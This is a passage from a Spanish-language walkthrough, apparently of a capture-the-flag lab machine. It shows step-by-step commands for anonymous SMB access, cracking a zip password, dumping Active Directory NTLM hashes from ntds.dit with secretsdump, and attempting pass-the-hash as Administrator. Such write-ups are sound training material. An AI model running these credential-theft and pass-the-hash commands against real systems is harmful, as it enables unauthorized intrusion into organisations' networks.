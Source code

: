 Vemos un directorio backup. Miramos si nos podemos connectar.

```bash
smbclient //dead:beef::b885:d62a:d679:573f/backup -N
dir
get backup.zip
```

Aqui hay un backup.zip y lo descargamos a nuestro equipo de atacante. Si intentamos unzipear el archivo vemos que esta protegido por contraseña.

### Crackeando la contraseña con fcrackzip {-}

```bash
fcrackzip -b -D -u -p /usr/share/wordlists/rockyou.txt backup.zip
```

Aqui podemos ver la contraseña.

```bash
unzip backup.zip
```

Aqui podemos ver que tenemos un **ntds.dit** y un **SYSTEM**. Esto quiere decir que podemos jugar con **SecretsDump**

### SecretsDump {-}

Teniendo un ntds.dit y un SYSTEM, podemos pillar los hashes NTLMv2 de los usuarios del Directorio Activo. Como lo hacemos desde nuestra
maquina local, tenemos que ponerle un **LOCAL** al final.

```bash
impacket-secretsdump -ntds Active\ Directory/ntds.dit -system registry/SYSTEM LOCAL
```

Aqui recuperamos un monton de informacion. Vamos a tratar de recojer unicamente la informacion que nos interesa. Vemos que todo los usuarios tienen un 
hash **aad3b435b51404eeaad3b435b51404ee**.

```bash
impacket-secretsdump -ntds Active\ Directory/ntds.dit -system registry/SYSTEM LOCAL | grep "aad3b435b51404eeaad3b435b51404ee" > data
```

Intentamos un pass the hash con el usuario Administrator

```bash
pushd /opt/CrackMapExec
poetry run crackmapexec smb dead:beef::b885:d62a:d679:573f -u 'Administrator' -H '2b576acbe6bcfda7294d6bd18041b8fe'
```

Vemos que no podemos hacer pass the hash a todos los usuarios, Tenemos que recuperar un listado de usuarios validos.

1. Creamos un fichero de usuarios

    ```bash
    cat data | awk '{print $1}' FS=":" | wc -l
    cat data | awk '{print $1}' FS=":" | sort -u | wc -l
    cat data | awk '{print $1}' FS=":" > users
    ```
